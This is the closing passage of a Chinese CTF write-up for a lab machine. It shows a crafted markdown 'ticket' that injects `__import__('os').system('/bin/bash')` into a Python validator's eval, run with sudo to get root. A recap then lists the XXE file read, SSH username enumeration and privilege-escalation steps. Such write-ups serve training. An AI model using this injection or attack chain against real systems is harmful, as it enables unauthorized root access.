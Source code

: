 ```
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**0x04 编写. md 文件**

```
sudo vim /tmp/shell.md
```

内容如下:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**11+ 11 == 22 and __import__('os').system('/bin/bash') == False
```

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkEx54741LvxiavA2FYmlUk581rZsKpicwz9CP589v4w7IkJKriaM83xSOQ/640?wx_fmt=png)

**0x05 执行脚本获取 root 权限**

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

然后输入文件路径

![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVkkibw4KYs9GIEI5qib5AsF4h7dm7JQhElkjjxjcpZrzaeTv1CPHmbSwCw/640?wx_fmt=png)

成功获取 root 的 flag

**四、复盘总结**

**0x01 思路**

(1): 进行端口扫描，获取 web 和 ssh 信息

(2): 发现 web 页面，使用 burp 进行抓包，发现隐藏页面

(3): 对隐藏页面进行分析，发现存在 XXE 文件读取漏洞

(4): 成功读取 / etc/passwd 和 db.php 文件，db.php 中存在一个可以登陆 ssh 的密码，但是账号还不清楚

(5): 通过用户名枚举尝试，成功找到 ssh 账号和密码

(6): 成功获取普通用户 development 的权限，获取 flag

(7): 使用 suid 提权，成功获取 root 的 flag

**0x02 注意点**

(1): 以后渗透开始就应该挂着 burp，如果不是看到首页提示，可能不会想到挂着 burp 去看 HTTP history，这样就不能找到 XXE 这个漏洞

(2): 对 python 代码熟悉，要一步一步去分析代码，构造对应的 payload